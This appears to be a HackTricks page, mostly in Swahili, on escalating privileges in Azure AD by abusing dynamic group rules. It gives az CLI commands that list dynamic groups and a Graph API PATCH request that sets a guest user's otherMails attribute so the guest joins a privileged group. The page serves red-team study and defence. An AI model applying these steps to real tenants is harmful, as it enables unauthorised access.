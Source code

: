 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Dynamic groups** ni vikundi ambavyo vina seti ya **kanuni** zilizowekwa na watumiaji wote au **vifaa** vinavyolingana na kanuni hizo vinajumuishwa kwenye kundi. Kila wakati **sifa** za mtumiaji au kifaa zinapobadilishwa, kanuni za dynamic zinarejelewa. Na wakati **kanuni mpya** inaundwa, vifaa vyote na watumiaji vinakaguliwa.

Dynamic groups zinaweza kuwa na **Azure RBAC roles** zilizotolewa kwao, lakini **haiwezekani** kuongeza **AzureAD roles** kwa dynamic groups.

Kipengele hiki kinahitaji leseni ya Azure AD premium P1.

## Privesc

Kumbuka kwamba kwa default mtumiaji yeyote anaweza kuwalika wageni katika Azure AD, hivyo, ikiwa **kanuni** ya dynamic group inatoa **idhini** kwa watumiaji kulingana na **sifa** ambazo zinaweza kuwekwa kwa **mgeni** mpya, inawezekana **kuunda mgeni** mwenye sifa hizi na **kuinua mamlaka**. Pia inawezekana kwa mgeni kusimamia wasifu wake mwenyewe na kubadilisha sifa hizi.

Pata vikundi vinavyoruhusu Uanachama wa Dynamic: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Rule description**: Mtumiaji yeyote wa Mgeni mwenye barua pepe ya pili yenye maandiko 'security' ataongezwa kwenye kundi

Kwa barua pepe ya mtumiaji wa Mgeni, kubali mwaliko na angalia mipangilio ya sasa ya **mtumiaji huyo** katika [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Kwa bahati mbaya, ukurasa haukuruhusu kubadilisha thamani za sifa hivyo tunahitaji kutumia API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Marejeleo

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
